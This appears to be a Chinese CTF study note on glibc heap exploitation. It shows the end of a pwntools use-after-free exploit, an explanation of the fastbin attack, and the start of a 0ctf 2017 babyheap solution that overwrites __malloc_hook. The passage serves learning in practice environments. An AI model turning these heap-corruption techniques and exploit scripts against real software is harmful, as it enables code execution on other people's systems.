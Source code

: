 ```python
    sh.sendline('3')
    sh.recvuntil('Index :')
    sh.sendline(str(index))

add_note(0x10, 'test')
add_note(0x10, 'what')
delete_note(0)
delete_note(1)
# debug()
add_note(0x8, p32(0x08048986))
print_note(0)
sh.interactive()
```

# fastbin attack

首先要知道`fastbin`的`chunk`的大小范围。

> 32位下，fastbin chunk的范围是16字节 - 64字节（0x10 - 0x40）
>
> 64位下，fastbin chunk的范围是32字节-128字节（0x20 - 0x80）
>
> 注意，这是加上header的大小。

`fastbin`方法流程比较简单，即通过某种手段能够控制`fastbin`中的`chunk`的`fd`指针时，将其指向一个想要往其写入数据的地方，这样再次`malloc`这个大小的`chunk`的时候就可以将这个地方分配为`chunk`，达到任意地址写的效果。但是条件如下：

- fake chunk 的 ISMMAP 位不能为 1，因为 free 时，如果是 mmap 的 chunk，会单独处理。
- fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
- **fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐。**
- fake chunk 的 next chunk 的大小不能小于 `2 * SIZE_SZ`，同时也不能大于`av->system_mem` 。
- fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。

要注意，被指向的地方的`chunk header`中的`size`必须满足`fastbin`的要求，即大小和`fastbin`中指向该`fake chunk`的`chunk`大小相同。若无法直接找到，可以利用地址偏移一些来寻找，也可以借助工具，比如`pwndbg`中可以使用`find_fast_chunk addr`来寻找一个可以覆盖掉`addr`地址的`chunk`。

例题是0ctf_2017_nanyheap：

整体思路是使用`unsort bin`泄露`main_arena`（`unsort bin`在只有一个`chunk`的时候`fd`和`bk`都指向`main_arena`的某个固定偏移处），再通过`main_arena`计算偏移得到`libc`和其他函数地址。

之后使用`fastbin attack`来向`__malloc_hook`中写入`one_gadget`算出来的`gadget`即可。注意，本来`malloc_hook`前是没有明显的可以分配的`fastbin`大小的`chunk`的，但是可以通过小部分偏移来得到刚好可以覆盖掉`__malloc_hook`的`chunk`，此处在`pwngdb`使用命令`find_fast_chunk &__malloc_hook`即可。

```python
# value
# size
# pointer -> malloc(size)
from pwn import *
from LibcSearcher import *

filename = './0ctf_2017_babyheap'
context(log_level='debug')
local = 1
elf = ELF(filename)
# libc = ELF('./libc.so.6')
# libc = ELF('/home/ltfall/Desktop/pwn/buuctf_libc/ubuntu16_64/libc-2.23.so')

if local:
    sh = process(filename)
else:
    sh = remote('node4.buuoj.cn', 25212)

def debug():
    pid = util.proc.pidof(sh)[0]
```